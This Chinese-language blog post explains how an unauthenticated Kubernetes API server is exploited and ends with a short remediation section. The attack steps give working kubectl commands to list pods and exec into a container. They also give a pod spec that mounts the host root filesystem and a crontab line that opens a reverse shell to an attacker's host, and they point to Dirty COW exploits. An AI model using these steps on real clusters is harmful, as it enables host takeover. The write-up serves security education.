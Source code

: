 title: Kubernetes Api Server 未授权访问漏洞
date: 201-12-05
----

# 0x00 漏洞原因

Kubernetes 的服务在正常启动后会开启两个端口：

1. Localhost Port （默认8080）
2. Secure Port （默认6443）

这两个端口都是提供 Api Server 服务的，一个可以直接通过 Web 访问，另一个可以通过 kubectl 客户端进行调用。

![Web 页面](https://i.loli.net/2018/12/05/5c07dec609ff5.png)

正常情况下 Api Server 是有权限控制的，分三种：

1. Authentication
2. Authorization
3. AdmissionControl

如果运维人员没有合理的配置验证和权限，那么攻击者就可以通过这两个接口去获取容器的权限，甚至通过创建自定义的容器去获取宿主机的权限。

# 0x01 漏洞利用

利用方式按严重程度来说分两种，一种是直接通过利用 kubectl 客户端调用 Secure Port 接口去控制已经创建好的容器。另外一种利用方法就是通过创建一个自定义的容器将系统根目录的文件挂在到/mnt目录，通过修改/mnt/etc/crontab 来影响宿主机的 crontab，获取一个反弹 Shell 拿到宿主机的权限。先说第一种方式。


首先，通过下面命令，去发现已经存在的容器

```
kubectl -s ip:port  get pods
```

![发现的容器](https://i.loli.net/2018/12/05/5c07e27b68f05.png)

然后直接连接这个容器获取 Shell。


```
kubectl -s ip:port  --namespace=default exec -it dockername bash
```
![获取容器权限](media/15440206868489.jpg)

这样就达到了控制容器的目的，但是容器的权限本身是不稳定的，如果宿主机本身的内核有问题的话，可以利用脏牛漏洞进行提权，获取宿主机的权限。具体可以参考：

[PoC for Dirty COW (CVE-2016-5195)](https://github.com/scumjr/dirtycow-vdso)
[DDirtycow-docker-vdso](https://github.com/gebl/dirtycow-docker-vdso)

第二种方式就比较厉害了，利用成功后造成的危害也最大。

首先我们根据官方的规范新建一个标准文件 `myapp.yaml` ,当然也可以使用 json 格式的。


```
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```
其中的 image 可以更换，最好使用基础镜像。

然后我们可以通过两种方式提交我们创建容器的请求，一种是通过他的 Web 页面（也就是默认的8080端口）

![Web 端方式提交](https://i.loli.net/2018/12/05/5c07e697f2044.png)

另外我们也可以通过他的另外的接口，通过 kubectl 客户端进行任务的提交。


```
kubectl -s  ip:port create -f yourfile
```

这里如果出现`Error from server (NotFound): the server could not find the requested resource`报错，可能是因为你的 kubectl 客户端和 kubernetes 的 server 端版本不相同导致的，一定要确保版本相同。

![版本确认](https://i.loli.net/2018/12/05/5c07edbf2b85e.png)

提交成功后，我们用之前命令获取容器的 bash，然后向容器的 `/mnt/etc/crontab` 写入反弹 shell 的定时任务，因为创建容器时把宿主机的根目录挂载到了容器的/mnt 目录下，所以可以直接影响到宿主机的 crontab。


```
echo -e "* * * * * root bash -i >& /dev/tcp/ip/port 0>&1\n" >> /mnt/etc/crontab
```

接下来就是见证奇迹的时刻，耐心的等待你就能拿到 Shell 了，验证之后可以确认是宿主机的权限，而不是容器的权限

![获取宿主机权限](https://i.loli.net/2018/12/05/5c07e92f66a77.png)

# 0x01 漏洞修复

在使用 kubernetes 的时候我们一定要进行身份的校验，K8S 的 APi 其实有非常严格的认证和授权

![校验认证流程](https://i.loli.net/2018/12/05/5c07ea3d72caa.png)

最简单的是在 Authentication 增加静态的 password，或者 token，可以的话关闭 Web 端口的服务，保持最小化原则，避免安全风险的产生，可以参考 [官方文档](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#static-password-file)


